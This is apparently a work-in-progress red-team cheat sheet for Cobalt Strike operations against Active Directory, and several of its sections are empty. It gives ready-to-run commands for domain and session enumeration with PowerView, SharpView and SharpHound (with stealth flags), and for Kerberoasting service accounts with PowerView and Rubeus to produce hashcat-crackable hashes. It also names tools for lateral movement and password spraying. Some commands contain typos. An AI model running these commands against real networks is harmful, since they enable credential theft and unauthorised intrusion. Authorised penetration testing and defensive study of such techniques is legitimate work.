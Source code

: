 # NOTE: WORK IN PROGRESS

# Cobalt Strike Red Team Cheat Sheet
---
## Domain Enumeration

Running PowerView and SharpView
```
PowerView:
# powershell-import --> Select PowerView.ps1 to import PS1 file in memory
# powershell Get-Module PowerView
# powershell Get-NetUser -Identity testuser -Domain test.lab.com

SharpView
# execute-assembly C:\SharpView.exe Invoke-CheckLocalAdminAccess --> Check servers for local admin using current privileges
```

Running ActiveDirectory module
```
# powershell import --> Select \ADModule\Microsoft.ActiveDirectory.Management.dll  file from https://github.com/samratashok/ADModule
# powershell Get-ADDomainController -Domain test.lab.com
```

Running Sharphound (.NET version of Bloodhound) for AD domain collection
```
Running SharpView in memory (.NET version of PowerView)
# execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain test.lab.com --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\

Collecting only user sessions to determine who is logged in and where:
# execute-assembly C:\SharpHound.exe --CollectionMethod Session,LoggedOn --Outputdirectory C:\temp\

Collection methods reference: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html
```
---
## Local Privilege Escalation
PowerUp

---
## Lateral Movement
RACE.ps1

Invoke-TheHash

Enable Powershell Remoting

---
## Domain Privilege Escalation
### GPP Password

### Password spraying
(DomainPasswordSpray.ps1)[https://github.com/dafthack/DomainPasswordSpray]
```

```

### Kerberoasting
PowerView kerberoasting
```
Get users with SPN set
# powershell Get-DomainUesr -SPN

Kerberoast all users
# powershell Invoke-Kerberoast - OutputFormat hashcat | fl

Kerberoast specific user
# powershell Invoke-Kerberoast -Identity testaccount -Domain test.lab.com -OutputFormat hashcat | fl
```

Rubeus kerberoasting
```
Kerberoast all users:
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHashes.txt /domain:test.lab.com

Kerberoast specific user:
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHash.txt /user:testaccount /domain:test.lab.com
```

---
## Exfiltration - Password Attacks


---
# References
Cobalt Strike commands cheat-sheet: https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet
Sharphound: https://github.com/BloodHoundAD/SharpHound3
